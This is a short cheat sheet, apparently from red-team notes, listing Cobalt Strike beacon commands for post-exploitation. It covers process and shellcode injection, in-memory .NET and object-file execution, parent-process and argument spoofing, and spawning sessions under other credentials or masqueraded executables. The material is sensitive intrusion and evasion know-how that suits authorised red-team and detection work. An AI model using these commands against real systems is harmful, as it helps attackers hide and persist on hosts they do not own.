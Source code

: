 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - Migrate Process

Inject to spawn beacon session.

```
beacon> inject <pid> <architecture> <listener>
```

## 02 - Inject Process

Run powershell through another process.

```
beacon> psinject <pid> <arch> <cmdlet> [args]
```

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`.

```
beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [arguments]
```

Inject DLL file in another process.

```
beacon> dllload <pid> c:\path\to\remove\shell.dll
```

Execute beacon object file through memory in the current process.

```
beacon> inline-execute /path/to/objectfile.o [arguments]
```

## 03 - Inject Shellcode

Inject shellcode.

```
beacon> shinject <pid> /path/to/shellcode.bin
```

Spawn a new process and inject shellcode.

```
beacon> shspawn x86 /path/to/x86_shellcode.bin

beacon> shspawn x64 /path/to/x86_64_shellcode.bin
```

Spawn shellcode and tunnel.

```
beacon> spunnel <pid> /path/to/shellcode.bin

spunnel_local             Spawn and tunnel an agent via Cobalt Strike client rportfwd
```

## 04 - Spoof Process

Spoof a parent process that is ready to spawn a new child process.

```
beacon> ppid <ppid>
```

## 05 - Spawn Beacon Session

Spawn new beacon process with under different user credentials as provided.

```
beacon> spawnas <domain>\<username> <password>
```

Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

Spawn new beacon process.

```
beacon> spawn <arch> <listener>
```

## 06 - Spoof Arguments

```
beacon> argue <command> [args]
```

---
## References

### Rasta Mouse

- [Rasta Mouse: Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)